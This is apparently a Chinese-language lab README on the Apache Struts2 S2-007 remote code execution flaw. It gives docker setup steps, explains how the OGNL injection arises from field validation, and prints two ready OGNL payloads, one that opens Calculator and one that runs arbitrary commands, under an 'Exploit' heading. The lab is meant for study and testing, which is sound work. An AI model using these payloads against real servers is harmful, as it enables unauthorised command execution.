 # S2-007 远程代码执行漏洞

影响版本: 2.0.0 - 2.2.3
漏洞详情: http://struts.apache.org/docs/s2-007.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

参考 http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回。例如这里有一个 UserAction：

```java
(...)
public class UserAction extends ActionSupport {
	private Integer age;
	private String name;
	private String email;

(...)
```

然后配置有 UserAction-validation.xml：

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
	"-//OpenSymphony Group//XWork Validator 1.0//EN"
	"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
	<field name="age">
		<field-validator type="int">
			<param name="min">1</param>
			<param name="max">150</param>
		</field-validator>
	</field>
</validators>
```

当用户提交 age 为字符串而非整形数值时，后端用代码拼接 `"'" + value + "'"` 然后对其进行 OGNL 表达式解析。要成功利用，只需要找到一个配置了类似验证规则的表单字段使之转换出错，借助类似 SQLi 注入单引号拼接的方式即可注入任意 OGNL 表达式。

因为受影响版本为 Struts2 2.0.0 - Struts2 2.2.3，所以这里给出绕过安全配置进行命令执行的 Payload（**弹计算器，无法在本项目环境下运行**）：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Exploit

@rickgray 在原文中只给了弹计算器的POC，我给出执行任意代码的EXP：

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

将Exp传入可以利用的输入框（age），得到命令执行结果：

![](1.jpeg)